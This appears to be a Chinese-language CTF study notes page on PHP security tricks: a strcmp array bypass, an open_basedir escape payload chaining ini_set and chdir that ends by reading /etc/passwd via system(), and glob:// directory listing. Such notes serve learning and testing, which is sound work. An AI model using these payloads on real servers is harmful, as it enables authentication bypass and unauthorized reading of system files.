 

#### curl()

[php curl实现发送get和post请求 - 简书 (jianshu.com)](https://www.jianshu.com/p/7fab00c11770)

[网鼎杯-Fakebook-反序列化和SSRF和file协议读取文件 (shuzhiduo.com)](https://www.shuzhiduo.com/A/l1dygVWqJe/)



#### strcmp()

`strcmp(str1,str2)`：比较两个字符串str1和str2

- str1<str2 返回<0
- str1>str2返回>0
- str1=str2 返回0

ps：数据类型不匹配(即传入非字符串类型)，也会返回0 （仅php<5.3）

bypass：同样的，给strcmp的参数为数组也会返回null

```
# 传入 passwd[]=xxx
实际是因为函数接受到了不符合的类型，将发生错误，但是还是判断其相等（某种意义上null相当于false）
```



#### open_basedir()绕过

##### chdir()、ini_set()函数组合

利用ini_set()设置php.ini的值，在函数执行时生效，脚本结束后恢复原状。

```php
ini_set ( string $varname , string $newvalue ) : string
```

varname是需要设置的值；newvalue是设置成为新的值
成功时返回旧的值，失败时返回 FALSE

```php
payload：
ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');system(‘cat ../../../../../etc/passwd’);
```



##### glob://

glob://协议是php5.3.0以后一种查找匹配的文件路径模式，而单纯传参glob://是没办法列目录的，需要结合其他函数方法

###### scandir()+glob://

只能列出根目录以及open_basedir()允许目录下的文件

```php
<?php
var_dump(scandir('glob:///*'));
>
```
